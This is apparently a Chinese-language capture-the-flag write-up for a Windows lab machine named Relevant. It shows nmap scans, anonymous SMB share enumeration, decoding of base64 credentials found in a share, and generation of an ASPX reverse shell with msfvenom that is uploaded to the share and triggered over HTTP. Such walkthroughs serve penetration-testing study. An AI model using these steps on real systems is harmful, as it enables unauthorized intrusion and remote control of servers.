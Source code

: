 # Relevant

nmap快速扫描：
```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
```

nmap版本扫描:
```
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard Evaluation 14393 microsoft-ds
Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-06-09T02:29:08-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h20m00s, deviation: 4h02m31s, median: 0s
| smb2-time: 
|   date: 2024-06-09T09:29:10
|_  start_date: 2024-06-09T09:25:23
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

以后unknown的端口都要好好扫扫，控了我两天。
PORT      STATE    SERVICE VERSION
49663/tcp open     http    Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
49666/tcp open     msrpc   Microsoft Windows RPC
49668/tcp filtered unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

其中有smb有关的端口，可以使用smbclient枚举:  
```smbclient -N -L //IP/```  
```
输出：
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv       Disk      
```
尝试登录一下nt4wrksv：  
```smbclient //IP/nt4wrksv```
里面有一个名为passwords.txt的文件，使用get下载，查看内容：  
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk%  
```

第一个看上去像是base64：  
```echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d```
不知道为什么，使用终端解出来的会多一个%:  
```Bob - !P@$$W0rD!123```  
第二个好像也是base64(反正解出来了)：  
```Bill - Juw4nnaM4n420696969!$$$```
好了，实锤了，上面的password是兔子洞。

可以直接传反shell进去，使用msfvenom生成：
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f aspx -o  reverse-shell.aspx
```
登陆进入smb使用put把反shell放进smb共享目录里，然后访问http://IP/nt4wrksv/reshell执行。




###